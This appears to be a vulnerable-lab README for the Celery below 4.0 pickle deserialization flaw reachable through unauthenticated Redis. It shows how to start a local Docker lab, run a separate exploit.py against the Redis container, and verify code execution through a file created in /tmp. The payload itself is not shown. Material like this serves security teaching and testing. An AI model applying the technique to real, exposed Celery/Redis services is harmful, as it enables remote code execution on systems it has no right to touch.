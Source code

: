 # Celery <4.0 Redis unauthorized access + Pickle deserialization exploit

Celery is a simple, flexible, and reliable distributed system that processes a large number of messages while providing the tools needed to operate and maintain such a system. It is a task queue focused on real-time processing and also supports task scheduling.

In Celery <4.0 version, Pickle is used by default for serialized task messages. When the queue service（e.g. Redis/RabbitMQ/RocketMQ ） used has an unauthorized access problem, the Pickle deserialization vulnerability can be used to execute arbitrary code.

## Vulnerability Environment

Execute the following command to start Celery 3.1.23 + Redis:

```bash
docker-compose up -d
```

## Exploit

The exploit script `exploit.py` only supports use under python3

```bash
pip install redis
#Check the IP of the redis service, please correct the container name by yourself
docker inspect --format='{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' celery3redisunauth_redis_1
python exploit.py [redis Contianer IP]
```

View Results：

```
docker logs celery3redisunauth_celery_1
```

You can see the following task message error：

![](1.png)

```bash
docker exec -it celery3redisunauth_celery_1 ls -l /tmp
```

You can see that the file `celery_success` was successfully created

![](2.png)

## Reference

https://docs.celeryproject.org/en/stable/userguide/configuration.html

https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk

https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers

https://www.jianshu.com/p/52552c075bc0

https://www.runoob.com/w3cnote/python-redis-intro.html

https://blog.csdn.net/SKI_12/article/details/85015803